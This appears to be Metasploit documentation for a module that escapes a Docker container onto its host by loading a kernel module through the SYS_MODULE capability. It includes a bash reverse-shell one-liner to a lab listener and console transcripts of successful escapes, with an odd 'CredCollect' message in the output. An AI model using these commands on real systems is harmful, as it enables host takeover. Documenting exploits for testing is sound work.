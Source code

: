 ## Vulnerable Application

This module performs a container escape onto the host as the daemon user. It
takes advantage of the SYS_MODULE capability. If that exists and the linux
headers are available to compile on the target, then we can escape onto the host.

### Creating A Testing Environment

- Get a VM that you want to test on (or your own machine)
- Install Docker
- Run a listener (can be anything but well use an example of a bash reverse shell)
```msf
msf6 > use payload/cmd/unix/reverse_bash
msf6 payload(cmd/unix/reverse_bash) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(cmd/unix/reverse_bash) > generate -f raw
bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
msf6 payload(cmd/unix/reverse_bash) > exploit -z
[*] Payload Handler Started as Job 0
msf6 payload(cmd/unix/reverse_bash) > 
[*] [2023.11.07-21:28:57] Started reverse TCP handler on 192.168.56.1:4444
```
- Create a privileged container (forwarding port 4444 in this example in order
to use a bind shell from the host. Container must be the same OS as host)
```bash
docker run --rm -it -p 4444:4444 --cap-add SYS_MODULE ubuntu bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
```
- Inside your session, install the required packages to run. Package manager will differ to OS, for debian as an example
```bash
apt update && apt install -y gcc make kmod linux-headers-$(uname -r)
```

## Verification Steps

1. start msfconsole
2. get a session
1. `use exploit/linux/local/docker_privileged_container_kernel_escape`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
6. `exploit`

## Options

### KernelModuleName

The name that the kernel module will be called in the system. The default if no
name is set is "{rand(8)}"

### WritableContainerDir

A directory where we can write files inside the container (default is /tmp/.{rand(4)}).
This is needed to drop the payload into the container.

### ReloadKernelModule

Rebuilds and reloads kernel module if its already loaded in case of repeat runs.

## Scenarios

### Container Escape from debian linux with reverse bash

```msf
msf6 > sessions -i 1 -c "apt update && apt install -y gcc make kmod linux-headers-$(uname -r)"
[*] Running 'apt update && apt install -y gcc make kmod linux-headers-$(uname -r)' on shell session 1 (192.168.56.126)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 1 
session => 1
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:42:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:42:42] Creating files
[*] [2023.11.07-21:42:43] Making kernel module
[+] [2023.11.07-21:42:43] Kernel module compiled successfully
[*] [2023.11.07-21:42:43] Loading kernel module
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.126:60974) at 2023-11-07 21:42:50 -0500
[*] This is CredCollect, I have the conn!
```

### Container Escape from arch linux with meterpreter

```msf
msf6 > sessions -i 2 -c "pacman -Syy --noconfirm gcc glibc make linux-headers"
[*] Running 'pacman -Syy --noconfirm gcc glibc make linux-headers' on shell session 2 (192.168.56.106)
msf6 > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set session 2 
session => 2
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > set lhost vboxnet0 
lhost => vboxnet0
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf6 exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:48:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:48:41] Creating files
[*] [2023.11.07-21:48:43] Making kernel module
[+] [2023.11.07-21:48:44] Kernel module compiled successfully
[*] [2023.11.07-21:48:44] Loading kernel module
[*] [2023.11.07-21:48:44] Sending stage (3045380 bytes) to 192.168.56.106
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.106:50402) at 2023-11-07 21:48:45 -0500
[*] This is CredCollect, I have the conn!
[!] [2023.11.07-21:48:45] Attempting to delete working directory /tmp/.IvLx
[*] Session 4 created in the background.
```
